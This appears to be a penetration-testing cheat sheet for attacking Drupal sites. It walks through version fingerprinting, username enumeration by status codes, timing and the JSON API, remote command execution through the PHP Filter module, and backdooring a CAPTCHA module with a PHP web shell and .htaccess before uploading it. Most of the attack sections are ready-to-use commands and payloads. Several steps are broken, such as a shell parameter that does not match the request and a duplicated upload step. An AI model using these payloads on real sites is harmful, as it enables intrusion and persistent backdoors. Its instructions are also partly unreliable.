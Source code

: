### **Introduction**

Drupal is a free and open-source content management system (CMS) used to build and manage websites. It's written in PHP and provides a backend framework for at least 2.3% of all websites worldwide, from personal blogs to corporate, political, and government sites.


### **Identifying Drupal Version**

1.  View the CHANGELOG.txt file to identify the Drupal version:  
    `http://[DRUPAL-DOMAIN]/CHANGELOG.txt`
2.  For Drupal 8 and above, the core/CHANGELOG.txt file can be used to determine the version:  
    `http://[DRUPAL-DOMAIN]/core/CHANGELOG.txt`
3.  The drupal.js file may contain version information:  
    `http://[DRUPAL-DOMAIN]/misc/drupal.js`
4.  Check the page source for meta tags indicating the Drupal version:  
    `<meta name="generator" content="Drupal 7 (http://drupal.org)" />`
5.  Droopescan is a scanner that can enumerate Drupal installations  
    `droopescan scan drupal -u http://[DRUPAL-DOMAIN]`
6.  Nmap, with the http-drupal-enum script, can be used to enumerate Drupal installations  
    `nmap -sV --script http-drupal-enum --script-args http-drupal-enum.basepath=/ http://[DRUPAL-DOMAIN]`

### **User Enumeration Techniques**

1.  Analyze error messages to identify existing user accounts. Drupal redirects to user pages if the account exists:  
    `for i in {1..10}; do curl -s -o /dev/null -w "%{http_code}" http://[DRUPAL-DOMAIN]/user/$i; done`
    
2.  Measure response times for different user actions to infer the existence of user accounts:
    
    ```python
    import requests
    import time
    
    def measure_response_time(url, data):
        start_time = time.time()
        response = requests.post(url, data=data)
        end_time = time.time()
        return end_time - start_time
    
    user_exists = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'existing_user', 'password': 'wrong_password'})
    user_not_found = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'nonexistent_user', 'password': 'wrong_password'})
    print('Existing user:', user_exists, 'Nonexistent user:', user_not_found)
    ```
    
3.  Check for user-specific customization or redirections. If redirects to a login page for non-existent users and to a dashboard for existing users, this could be a potential vector for username enumeration.  
    `http://[DRUPAL-DOMAIN]/users/[USERNAME]`
    
4.  Droopescan can also be used to check for user enumeration  
    `drupal -u http://[DRUPAL-DOMAIN] --enumerate u`
    
5.  Investigate forums, articles, and comments on the target Drupal site. Users often leave traces or use similar usernames across different platforms.
    
6.  If the Drupal site has JSON API  you might be able to retrieve user information:  
    `curl -s http://[DRUPAL-DOMAIN]/jsonapi/user/user | jq`  
    Look for unique identifiers or username fields in the JSON response.
    

### **PHP Code Execution in Filter Module (Drupal)**

#### **Step 1: Enable PHP Filter Module**

1.  Access the module administration panel by navigating to:  
    `http://[DRUPAL-DOMAIN]/#overlay=admin/modules`
2.  Locate and enable the PHP Filter module, then save the configuration.

#### **Step 2: Create a Page with PHP Code**

1.  Navigate to the Content Creation Section:  
    `http://[DRUPAL-DOMAIN]/#overlay=node/add`
2.  Add a new Basic page, place the following PHP code to test command execution:  
    `<?php system($_GET['hackfast']); ?>`
3.  Ensure that the text format is set to "PHP code".
4.  Save the page. Note the URL of the newly created page, for example:  
    `http://[DRUPAL-DOMAIN]/node/1`

#### **Step 3: Execute Commands**

1.  To run commands, add a query string with the command you wish to execute, such as:  
    `http://[DRUPAL-DOMAIN]/node/1?cmd=id`
2.  Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/node/1?cmd=id'`

### **Modify and Upload Module with Web Shell**

1.  Download a module from Drupal.org, e.g., CAPTCHA:  
    `wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz`
    
2. Extract archive:  
    `tar xvf captcha-8.x-1.2.tar.gz`
    
3. Add a PHP web shell into one of the PHP files:  
    `<?php system($_GET['cmd']); ?>`
    
4. Create a .htaccess file. This allows bypassing Drupal default access controls:
    
    ```
    <IfModule mod_rewrite.c>
      RewriteEngine On 
      RewriteBase /  
    </IfModule>
    ```
    
5. Place this file in the root directory of the modified module.
    
6. Repackage the modified module:  
    `tar cvf modified_captcha.tar.gz captcha/`
    
7. Upload the module through the Drupal admin interface.  
    `tar cvf modified_captcha.tar.gz captcha/`
    
8. Install the module.
    
9. Navigate to the web shell URL and add the command:  
    `http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id`
    
10. Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id'`